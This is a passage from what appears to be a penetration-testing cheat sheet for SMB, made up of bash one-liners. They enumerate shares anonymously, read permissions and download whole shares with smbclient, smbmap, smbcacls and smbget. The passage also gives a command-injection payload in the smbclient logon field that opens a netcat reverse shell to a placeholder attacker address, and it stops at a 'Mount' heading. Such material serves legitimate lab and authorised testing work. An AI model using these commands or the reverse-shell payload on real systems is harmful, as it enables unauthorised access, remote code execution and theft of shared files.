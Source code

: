 ```bash
smbclient -N -L \\\\${IP} | grep Disk | sed 's/^\s*\(.*\)\s*Disk.*/\1/' | while read share ; do echo "======${share}======"; smbclient -N "//${IP}/${share}" -c dir ; echo ; done
```

```text

```


Enumerate individual shares. Use `prompt OFF` and `recurse ON`. Use `mask ""` and `mget *` to download all files.

```bash
SHARE="" ; smbclient -N \\\\${IP}\\${SHARE}
```

```text

```


If `logon` is available, try `reverse shell`.

```text
logon "./=`nohup nc -e /bin/bash ATTACKERIP 443`"
```


If credentials are known,

```bash
DOMAIN="" USER="" PASS="" ; smbclient -U ${DOMAIN}/${USER}%${PASS} -L \\\\${IP}\\
```


```bash
DOMAIN="" USER="" PASS="" SHARE="" ; smbmap -H ${IP} -d ${DOMAIN} -u ${USER} -p ${PASS} -s ${SHARE}
```

```text

```


**Permissions**

Find owner, perms and ACL for shares.

```bash
SHARE="" ITEM="" ; smbcacls -N \\\\${IP}\\${SHARE} /${ITEM}
```


**Download**

```bash
smbclient \\\\${IP}\\${SHARE} -N -c 'prompt OFF;recurse ON;mget *'
```

```bash
smbget -R smb://${IP}/${SHARE} --guest
```


**Mount**
